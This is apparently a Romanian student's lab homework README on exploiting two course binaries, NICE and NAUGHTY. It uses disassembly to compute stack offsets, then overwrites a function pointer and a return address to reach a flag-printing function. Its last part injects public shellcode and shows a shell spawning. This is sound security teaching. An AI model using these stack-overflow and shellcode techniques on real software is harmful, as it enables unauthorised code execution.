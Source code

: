 ## Fisierul NICE

### Analiza binarului

Functia vulnerabila se afla la adresa 0x08049329. In aceasta functie, se aloca
spatiu pentru 0x2f9 bytes. Apoi este salvata pe stiva, mai exact la pozitia
ebp-0x1de, adresa unei functii (0x80492c8). Urmeaza apoi o citere de la tasta-
tura. Daca se citesc maxim 0x2f9-0x1de=283 bytes, nu va fi nicio problema. In
schimb daca se citesc mai multi, se va suprascrie adresa functiei salvata pe
stiva si programul va functiona diferit, intruact ulterior, functia de la acea
adresa va fi apelata. Asa cum se poate observa din codul de mai jos, se citesc
0x2f9 bytes, deci adresa acelei functii va putea fi suprascrisa.


 8049329: &nbsp;&nbsp;&nbsp;&nbsp;      55                      push   ebp\
 804932a:       89 e5                   mov    ebp,esp\
 804932c:       81 ec f9 02 00 00       sub    esp,0x2f9\
 8049332:       c7 85 22 fe ff ff c8    mov    DWORD PTR [ebp-0x1de],0x80492c8\
 8049339:       92 04 08 \
 804933c:       89 e2                   mov    edx,esp\
 804933e:       68 f9 02 00 00          push   0x2f9\
 8049343:       52                      push   edx\
 8049344:       6a 00                   push   0x0\
 8049346:       e8 e5 fc ff ff          call   8049030 \<read@plt>\
 804934b:       8b 85 22 fe ff ff       mov    eax,DWORD PTR \[ebp-0x1de]\
 8049351:       ff d0                   call   eax\
 8049353:       c9                      leave  \
 8049354:       c3                      ret    


### Spargerea binarului

Este suficient sa suprascriu adresa acelei functii cu o alta adresa care va
genera mesajul dorit. Aceasta adresa este 0x08049291 deoarece:

- la eticheta print_flag se afla 7 functii (se observa 7 cadre de stiva);
- main-ul contine 4 functii care doar citesc un numar de bytes si inca una
vulnerabila (cea de a patra);
- a doua functie din print_flag este cea la care "se sare", daca nu este
exploatata vulnerabilitatea, programul afisand "All done...";
- ramane astfel o singura functie, avand adresa 8049291, in corpul careia se
poate observa un apel al functiei "puts", care probabil printeaza mesajul
NICE_FLAG{...}.


 8049291:       55                      push   ebp
 8049292:       89 e5                   mov    ebp,esp
 8049294:       6a 04                   push   0x4
 8049296:       68 66 c0 04 08          push   0x804c066
 804929b:       6a 00                   push   0x0
 804929d:       6a 00                   push   0x0
 804929f:       6a 00                   push   0x0
 80492a1:       6a 00                   push   0x0
 80492a3:       e8 c8 fd ff ff          call   8049070 <ptrace@plt>
 80492a8:       83 c4 10                add    esp,0x10
 80492ab:       83 f8 ff                cmp    eax,0xffffffff
 80492ae:       75 07                   jne    80492b7 <print_flag+0x26>
 80492b0:       6a 01                   push   0x1
 80492b2:       e8 99 fd ff ff          call   8049050 <exit@plt>
 80492b7:       e8 99 ff ff ff          call   8049255 <__x86.get_pc_thunk.bx+0x185>
 80492bc:       68 28 c0 04 08          push   0x804c028
 80492c1:       e8 7a fd ff ff          call   8049040 <puts@plt>
 80492c6:       c9                      leave  
 80492c7:       c3                      ret    


Astfel, pentru a sparge binarul, am citit de la tastatura:

- 98 bytes pentru prima functie, intrucat functia executa exact aceasta
operatie;
- 297 bytes pentru a doua, din acelasi motiv;
- 229 bytes pentru a treia, din acelasi motiv;
- 283 bytes pentru a patra la care am adaugat noua adresa, 0x08049291,
scrisa in little endian.



## Fisierul NAUGHTY

### Spargerea binarului

Vulnerabilitatea in acest binar este o functie care citeste pe stiva mai mult
decat se alocase inainte, putand astfel modifica adresa de retur a functiei
apelante. Concret, a patra functie apelata din main, ce are adresa  0x08049362,
aloca 0x1f2 bytes si citeste 0x34d bytes.


 8049362:       55                      push   ebp
 8049363:       89 e5                   mov    ebp,esp
 8049365:       81 ec f2 01 00 00       sub    esp,0x1f2
 804936b:       89 e2                   mov    edx,esp
 804936d:       68 4b 03 00 00          push   0x34b
 8049372:       52                      push   edx
 8049373:       6a 00                   push   0x0
 8049375:       e8 b6 fc ff ff          call   8049030 <read@plt>
 804937a:       81 bd 75 ff ff ff 88    cmp    DWORD PTR [ebp-0x8b],0xbb4488
 8049381:       44 bb 00 
 8049384:       74 07                   je     804938d <print_flag+0xfc>
 8049386:       6a 01                   push   0x1
 8049388:       e8 c3 fc ff ff          call   8049050 <exit@plt>
 804938d:       c9                      leave  
 804938e:       c3                      ret


Pentru a putea sparge binarul, trebuie ca primele 3 functii apelate din main
sa nu treaca de if-ul corespunzator verificarii unui element citit cu o valoare
data in program. Astfel, prima functie din main, cea de la adresa 0x080492de:

- aloca 0x10d bytes si citeste de la ebp-0x10d in sus, 0xcf bytes;
- compara numarul de la ebp-0xb9 cu valoarea 0x3113cc71, iar daca sunt egale se
continua executia programului.


 80492de:       55                      push   ebp
 80492df:       89 e5                   mov    ebp,esp
 80492e1:       81 ec 0d 01 00 00       sub    esp,0x10d
 80492e7:       89 e2                   mov    edx,esp
 80492e9:       68 cf 00 00 00          push   0xcf
 80492ee:       52                      push   edx
 80492ef:       6a 00                   push   0x0
 80492f1:       e8 3a fd ff ff          call   8049030 <read@plt>
 80492f6:       81 bd 47 ff ff ff 71    cmp    DWORD PTR [ebp-0xb9],0x3113cc71
 80492fd:       cc 13 31 
 8049300:       74 07                   je     8049309 <print_flag+0x78>
 8049302:       6a 01                   push   0x1
 8049304:       e8 47 fd ff ff          call   8049050 <exit@plt>
 8049309:       c9                      leave  
 804930a:       c3                      ret


Deci trebuie avut grija cand citesc de la tastatura, sa introduc 0x10d-0xb9=84
bytes random, apoi numarul 0x3113cc71, in little endian si apoi inca 0xcf-84-4=119
bytes random pentru a continua executia programului.

Pentru urmatoarele doua functii se procedeaza identic.

Pentru a patra functie, unde se citeste mai mult decat se aloca, se citeste prac-
tic intreg numarul de bytes alocat si anume 0x1f2 bytes, avand grija ca mai sus
sa pun numarul corect pe pozitia indicata, iar apoi se citesc inca 4 bytes random
pentru a suprascrie vechiul ebp salvat pe stiva. In final se citeste de la tasta-
tura noua adresa a functiei la care "va sari" executia programului. Practic se
pune adresa 0x08049291, scrisa desigur in little endian, explicatia fiind simi-
lara cu cea din binarul NICE.

In acest fel, functia la care se trece va afisa mesajul "NAUGHTY_FLAG{...}".



### Shellcode

Folosind din nou binarul NAUGHTY, exploatam vulnerabilitatea prezentata anterior
din a patra functie. Ideea este ca in loc sa citim o gramada de caractere
garbage, la un moment dat sa citim codul unei functii care deschide un shell.

Asadar, am dat ca input pentru functia respectiva:
- 100 caractere garbage;
- un string in hexa de 55 bytes care reprezinta codul unei functii ce deschide
un shell (luat de la urmatorul [link](http://shell-storm.org/shellcode/files/shellcode-811.php))
- inca 204 caractere garbage;
- numarul "\x88\x44\xbb\x00", pentru a trece de if-ul care compara valoarea de
la pozitia la care am ajuns cu acest numar;
- inca 139 de caractere garbage astfel incat sa suprasciu tot pana la vechiul
ebp salvat, urmand sa suprascriu si adresa de return;
- "\x7a\xd0\xff\xff", noua adresa de return, care reprezinta de fapt adresa la
care este stocat shellcode-ul citit anterior de la tastatura.

Aceasta noua adresa de return se gaseste cu ajutorul gdb-ului, astfel ca aflu
la ce adresa pointeaza ebp-ul si adun 100, pentru ca am, inainte de citirea
shellcode-ului, am citit 100 bytes garbage. Astfel, obtin adresa de pe stiva la
care este salvat shellcode-ul.

#### Exemplu de rulare

student@IOCLA:~/tema4$ ./naughty < naughty_shellcode 
\$ ls
README	naughty  naughty_payload  naughty_shellcode  nice  nice_payload  tema4.zip
\$ pwd
/home/student/tema4
\$ exit
student@IOCLA:~/tema4$ 


